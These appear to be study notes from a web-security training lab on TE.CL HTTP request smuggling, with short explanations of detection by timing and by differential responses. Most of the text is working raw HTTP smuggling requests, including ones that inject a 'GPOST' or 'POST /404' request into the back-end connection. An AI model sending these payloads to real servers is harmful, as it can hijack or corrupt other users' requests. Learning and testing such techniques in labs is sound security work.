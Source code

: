 ## TE.CL vulnerabilities

The front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header:

```http
POST / HTTP/1.1
Host: 0a51002b038f542d807e6c3b001900de.web-security-academy.net
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

9d
GPOST / HTTP/1.1
Host: 0a51002b038f542d807e6c3b001900de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

### Find TE.CL using timings

>[!note] Note
>Since the front-end server uses the `Transfer-Encoding` header, it will forward only part of this request, omitting the `X`. The back-end server uses the `Content-Length` header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

### Confirming TE.CL vulnerabilities using differential responses

Attack request:
```http
POST / HTTP/1.1
Host: 0ac700e7043c13ce850119ed00ea00d4.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 4

73
POST /404 HTTP/1.1
Host: 0ac700e7043c13ce850119ed00ea00d4.web-security-academy.net
Content-Length: 150

foo=bar
0
```

If the attack is successful, then everything from `POST /404` onwards is treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
```http
POST /404 HTTP/1.1
Host: 0ac700e7043c13ce850119ed00ea00d4.web-security-academy.net
Content-Length: 150

foo=bar
0

POST / HTTP/1.1
Host: 0ac700e7043c13ce850119ed00ea00d4.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 4
```

